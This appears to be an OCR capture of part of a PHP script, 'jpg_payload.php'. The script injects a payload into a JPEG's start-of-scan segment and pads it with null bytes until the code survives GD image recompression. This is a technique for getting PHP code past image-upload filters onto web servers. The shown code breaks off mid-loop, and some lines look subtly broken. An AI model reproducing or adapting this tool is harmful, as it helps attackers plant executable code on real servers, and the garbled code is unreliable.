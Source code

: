 ```

    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php &lt;jpg_name.jpg&gt;');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad &lt; 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis-&gt;readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis-&gt;eof()) &amp;&amp; ($dis-&gt;readByte() == 0xFF)) {
            $marker = $dis-&gt;readByte();
            $size = $dis-&gt;readShort() - 2;
            $dis-&gt;skip($size);
            if($marker === 0xDA) {
                $startPos = $dis-&gt;seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis-&gt;eof())) {
                        if($dis-&gt;readByte() === 0xFF) {
                            if($dis-&gt;readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis-&gt;seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
```